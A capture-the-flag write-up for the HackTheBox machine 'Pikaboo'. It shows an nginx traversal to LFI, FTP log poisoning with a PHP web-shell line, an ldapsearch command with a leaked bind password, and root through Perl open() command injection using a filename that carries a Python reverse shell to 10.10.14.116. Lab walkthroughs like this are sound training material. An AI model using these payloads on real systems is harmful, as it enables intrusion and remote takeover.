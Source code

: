 # HackTheBox-Pikaboo

## NMAP

```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:                                                            
|   2048 17:e1:13:fe:66:6d:26:b6:90:68:d0:30:54:2e:e2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAgG6pLBPMmXneLGYurX9xbt6cE2IYdEN9J/ijCVrQbpUyVeTNWNoFnpB8+DIcppOtsJu0X3Iwpfb1eTmuop8q9nNlmyOcOTBHYOYLQwa+G4
e90Bsku86ndqs+LU09sjqss5n3XdZoFqunNfZb7EirVVCgI80Lf8F+3XRRIX3ErqNrk2LiaQQY6fcAaNALaQy9ked7KydWDFYizO2dnu8ee2ncdXFMBeVDKGVfrlHAoRFoTmCEljCP1Vsjt69NDB
udCGJBgU1MbItTF7DtbNQWGQmw8/9n9Jq8ic/YxOnIKRDDUuuWdE3sy2dPiw0ZVuG7V2GnkkMsGv0Qn3Uq9Qx7
|   256 92:86:54:f7:cc:5a:1a:15:fe:c6:09:cc:e5:7c:0d:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIJl6Z/XtGXJwSnO57P3CesJfRbmGNra4AuSSHCGUocKchdp3JnNE704lMnocAevDwi9HsAKAR
xCup18UpPHz+I=
|   256 f4:cd:6f:3b:19:9c:cf:33:c6:6d:a5:13:6a:61:01:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINyHVcrR4jjhBG5vZsvKRsKO4SnXj3GqeMtwvFSvd4B4
80/tcp open  http    syn-ack ttl 63 nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2
|_http-title: Pikaboo
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


## PORT 80 (HTTP)

<img src="https://imgur.com/DJu1bKT.png"/>

We have three links on the home page on navigation bar , `Pokeatdex` , `Contact` and `Admin` so first let's visit what's the pokatdex is about 

<img src="https://i.imgur.com/e09Q4mc.png"/>

We can see some pokemon thingys over here and on hovering on the name we can see that it will take to us on `pokeapi.php`

<img src="https://i.imgur.com/3p4zHxo.png"/>

There's a GET parameter named `id` here so we can try running `sqlmap` here

<img src="https://i.imgur.com/eRcE1OA.png"/>

<img src="https://i.imgur.com/fCQmwdQ.png"/>

This failed so maybe there's no sqli on here , moving forward there's a contact page

<img src="https://i.imgur.com/vYdZstl.png"/>

I tried clicking on send button but it didn't work probably there wasn't any implementation done on this page, so we are only left with the admin page

<img src="https://i.imgur.com/DSscBgR.png"/>

We see that it asks us for a password , we could try some default one's admin:admin , admin:password , admin:Password123, none of them worked but I did notice something strange about the error message

<img src="https://i.imgur.com/WjJybFb.png"/>

That page is being hosted from Apache and the nmap scan showed us that port 80 is using nginx so nginx is being used as a reverse proxy here and we can abuse knowing that there's nginx reverse proxy mapping which could allow us to do directory traversal

https://book.hacktricks.xyz/pentesting/pentesting-web/nginx

<img src="https://i.imgur.com/OlGCqcO.png"/>

<img src="https://i.imgur.com/CXwsMZx.png"/>

So let's try if we can bypass to do LFI

<img src="https://i.imgur.com/0vxwSZb.png"/>

We get a 403 forbidden error means that directory listing isn't avilable but we can try to access a file in there or another folder that we have rights so , let's use `ffuf` to fuzz for files or directories, one thing note that when I git cloned `ffuf` from main branch I faced issues and was giving false positive reults so I switched the branch to dev and then cloned it , that worked perfectly for me

<img src="https://i.imgur.com/8TtqEEE.png"/>

Here we found `server-status` which monitors the load on the server and thells about the incoming requets on the web server through an HTML page

<img src="https://i.imgur.com/dQNQOPY.png"/>

We can see a request to `admin_staging`  in which `index.php` has parameter which is viewing the vsftpd logs which are bascially ftp login logs which means that we can poison thses logs to get remote code execution

<img src="https://i.imgur.com/50DhESe.png"/>

https://secnhack.in/ftp-log-poisoning-through-lfi/

So first we need to login with a name having a php command which will be having a GET parameter being executed as a system command

```
<?php system($_GET['cmd']);?>
```

<img src="https://i.imgur.com/EaL6B6E.png"/>

Now adding `cmd` argument with a php reverse shell command we can get a shell

<img src="https://i.imgur.com/uwj3vZ5.png"/>

We can stabilize our shell in this way ,so that we can have the functionality of clearing the terminal screen and navigating through bash history with up and down arrow keys

<img src="https://i.imgur.com/PVT7lQY.png"/>

Let's do some basic enumeration by looking at local ports

<img src="https://imgur.com/HwXl1bv.png"/>

Here we see only port 398 and 81 , 389 seems intersting as we already know about port 81 that it's using apache

Looking at running cronjobs we do see one , which is being ran by root every minute

<img src="https://i.imgur.com/lYJBz4Q.png"/>

<img src="https://imgur.com/gTQ6RpA.png"/>

The script is running a for loop which grabs the all the folders in `ftp` folder and will run a perl script on only those files which have `.csv` file extension after that those files will be removed , if we look into ftp folder we don't have permissions 

<img src="https://i.imgur.com/b92gSJV.png"/>

So doing some more enumeration, In the `/opt` directory we can see a folder 

<img src="https://i.imgur.com/UDAzCLX.png"/>

Further going into `/config/settings.py` we can find LDAP credentials 

<img src="https://i.imgur.com/XqRmiLz.png"/>

We can run this LDAP command to query everything from the machine 

```
ldapsearch -x -LLL -h localhost -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w "J~42%W?PFHl]g"  -b "dc=pikaboo,dc
=htb"
```

<img src="https://imgur.com/giqZYFz.png"/>

<img src="https://imgur.com/iLi5C4c.png"/>

Here we have to base64 encoded passwords on decoding it to text form we can get pwnmeow's password

<img src="https://imgur.com/UJdVPIt.png"/>

I tried the password on ssh , through switching user but didn't worked on them , but it did worked on ftp

<img src="https://imgur.com/hG6HS1D.png"/>

Looking at that perl script

<img src="https://imgur.com/HAtqgjH.png"/>

<img src="https://i.imgur.com/MOU64na.png"/>

For getting root , we can see that the perl script which is `csvupdate` is being ran on the files that are in FTP folders which will run on the file having `.csv` extension , there's function in the perl script `open()` which is vulnerable to command injection if we supply the commands as file name with `|` as a prefix  , so we need to upload a python reverse shell in the form of a file name.


```bash
"|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.116",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'; .csv"
```

<img src="https://i.imgur.com/Fp900Up.png"/>

<img src="https://i.imgur.com/c9pK4gm.png"/>
